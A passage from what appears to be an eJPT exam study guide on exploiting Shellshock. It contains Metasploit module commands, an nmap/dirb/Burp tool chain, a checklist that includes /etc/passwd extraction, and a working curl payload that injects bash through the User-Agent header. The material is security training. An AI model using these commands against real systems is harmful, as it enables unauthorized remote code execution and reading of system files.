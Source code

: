 ```bash
# Metasploit module for Shellshock (Advanced users)
msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS TARGET_IP
set TARGETURI /cgi-bin/vulnerable.cgi
set CMD_MAX_LENGTH 2048
exploit

# Note: Manual exploitation is preferred for eJPT exam
# Metasploit should be secondary option only
```

### 🔄 **Tool Chain Example:**

```bash
# Step 1: Discovery with Nmap
nmap -sV TARGET → Identifies web server

# Step 2: Enumeration with dirb/gobuster  
dirb http://TARGET /usr/share/wordlists/dirb/common.txt → Finds CGI directories

# Step 3: Shellshock testing
nmap --script http-shellshock TARGET → Confirms vulnerability

# Step 4: Exploitation with Burp Suite
Manual payload testing → Achieves code execution

# Step 5: Post-exploitation enumeration
Use Shellshock for additional reconnaissance → Gather system information
```

---

## 📝 Documentation and Reporting

### 📊 **Evidence Collection Checklist:**

**🔥 Required Screenshots (Take these during exploitation!):**
- [ ] Nmap NSE script output showing vulnerability detection
- [ ] Burp Suite Repeater showing malicious User-Agent header
- [ ] HTTP response containing command execution output  
- [ ] Successful /etc/passwd file extraction
- [ ] Process enumeration results (ps -ef output)
- [ ] User identity confirmation (id command output)

**🔥 Command Outputs to Save:**
```bash
# Save all command outputs with timestamps
echo "[$(date)] Nmap Shellshock Detection" > shellshock_evidence.txt
nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" TARGET >> shellshock_evidence.txt

echo "[$(date)] Manual Payload Testing" >> shellshock_evidence.txt  
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'id'" http://TARGET/gettime.cgi >> shellshock_evidence.txt
```
